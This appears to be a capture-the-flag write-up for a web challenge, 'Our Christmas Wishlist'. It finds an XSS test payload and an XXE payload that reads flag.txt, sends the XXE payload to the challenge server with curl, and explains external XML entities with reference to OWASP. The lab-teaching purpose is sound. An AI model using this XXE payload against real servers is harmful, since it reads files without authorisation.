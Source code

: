 # Our Christmas Wishlist

Category: Web
Tag: Web, XXE



## Attack

Simple input/submit form

![form](img/form.png)



In html source, there is interesting function lol().

![source](img/source.png)

It's a common ajax xml function for sending request.

It sends your message in xml form.

After doing some test, we can find server-side xml parser is poor.



It allows XSS.

```html
&lt;script&gt;alert(1)&lt;/script&gt;
```



and It also allows XXE.

```html
<!DOCTYPE foo [
 <!ENTITY flag SYSTEM "flag.txt" >]>
    <message>&flag;</message>
```



There is no way to get flag.txt with local-XSS. It needs privilege.

Fortunately, XXE works and I can leak any file from server.

```bash
curl -X POST -H "Content-Type: application/xml" -d @xxe.xml http://199.247.6.180:12001/
```

```html
<!DOCTYPE foo [
 <!ENTITY flag SYSTEM "flag.txt" >]>
    <message>&flag;</message>
```

<center>[xxe.xml]</center>



## XXE(eXternal XML Entity)

> There is great reference in OWASP(https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing). 
> It's enough to solve this challenge with above reference.

XML support keyword `ENTITY`.

According to W3, It's used to define shortcut for special characters, and it can be declared for internal or external.

Internal means target entity is in DTD(Document Type Definition), and external means target entity is not in DTD.

XXE occurs when it is about external.

External entity should be declared in this form.
`<!ENTITY [name] SYSTEM [PATH] >`

xxe.xml above could be simple example of external entity usage.

If xml-parser meets `&flag`, it exchange `&flag` with contents of `flag.txt`.











